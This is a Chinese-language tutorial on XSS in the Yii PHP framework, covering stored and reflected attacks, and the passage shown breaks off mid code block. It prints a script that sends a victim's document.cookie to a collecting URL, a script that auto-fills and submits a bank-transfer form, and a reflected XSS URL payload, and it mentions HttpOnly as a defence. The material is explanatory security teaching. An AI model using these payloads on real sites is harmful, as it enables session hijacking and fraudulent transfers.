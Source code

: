 ```yaml
---
title: Yii-安全篇
date: 2017-07-02 11:56:02
tags:
	- yii安全
	- 安全
	- xss
	- csrf
	- sql注入
	- 文件上传漏洞
categories:
	- 安全
---
```


## xss攻击  
> 想方设法把js注入到页面中，可以通过url(反射性)或者 提交数据(提交的数据会保存在后台，显示在页面)
**跨站脚本攻击(Cross Site Scripting)**  
将js代码插入到给用户使用的页面中，从而对用户进行攻击  

**盗取用户账号(使用cookie登陆)**  
将下面代码出入页面，当用户访问这个页面的时候将会把cookie发送给自己，在cookie中寻找自己需要的登陆cookie
```js
<script>
var cookie = document.cookie;
window.location.href = 'http://127.0.0.1/index.php?cookie = '+cookie
</script>
```
将cookie设置成httponly，js将无法读取这条cookie  

**非法转账**  

自动转账的代码逻辑，自动填写并确认跳转
```js
document.getElementById('ipt-search-key').value = 'ding@163.com';//自动填写转账的账户
document.getElementById('amount').value = '100';//自动填写转账的金额
document.getElementById('reason').value = '劫富济贫';//自动填写原因
document.getElementsByClassName('ui-button-text')[0].click();//自动跳转
```
将javascript注入到其他页面，但是需要注入到用户使用的转账的页面，这个是比较难的，需要使用反射性xxs

### 反射性xss
> 原理：将js代码赋值给url需要get传参的key，后台获取到这个key又会原原本本的将这个key输出到前端页面  
选好需要攻击的网站页面，url需要有get传参的内容，确定后台获取到get传参的key值会将其原原本本的输出到前端页面，这样就可以进行攻击了  

将js代码赋值给url的get需要传参的key，例如  
```
//url
www.basic.com/index.php?r=article/post&name=abc<script>alert('hello world')</script>
//but，浏览器会智能过滤掉js标签  
//可以通过后端设置响应头让其不过滤
\YII:$app->response->headers->add('x-xss-Protection', '0');
//后端的逻辑是直接将获取到的name直接到页面
echo \YII:$app->request->get('name');
```
输出的内容可能被编码转换成字符串,导致无法执行
例如：
```
"abc%3Cscript%3Ealert('hello world')%3C/script%3E"
//%3Cscript%3E即<script>
```
假设，后台获取到这个name值后将其放进了js中(可以通过实验，查看源码，看后台将获取到的数据放到哪里了)
```js
<script>
...
```